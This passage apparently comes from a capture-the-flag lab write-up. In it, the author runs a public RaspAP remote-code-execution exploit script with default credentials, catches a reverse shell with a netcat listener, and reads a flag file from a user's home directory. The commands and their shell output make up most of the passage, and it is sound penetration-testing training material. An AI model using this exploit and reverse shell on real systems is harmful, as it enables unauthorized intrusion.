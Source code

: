 ![](./assets/raspap-about.png)

Alright, time to go back to that RCE exploit...

I had to modify the target path for the exploit from the default `/wpa_path` to `/index.php?page=wpa_conf`, but it worked! I figured out the path by finding the path of the "WiFi Client" page in the web server...

```                                                                                                                                                                                           
┌──(kali㉿kali)-[~]
└─$ python3 50224.py 192.168.234.97 8091 admin secret 192.168.45.239 80
```

```
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 80
listening on [any] 80 ...
connect to [192.168.45.239] from (UNKNOWN) [192.168.234.97] 34462
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

I find our first flag under user the directory `/home/walter`:

```
$ cd /home 
$ ls
janis
paige
terry
walter
$ cd walter
$ ls
local.txt
wifi_reset.py
$ cat local.txt
c341e5da99444f6f649a6ea2bb6a8c34
```

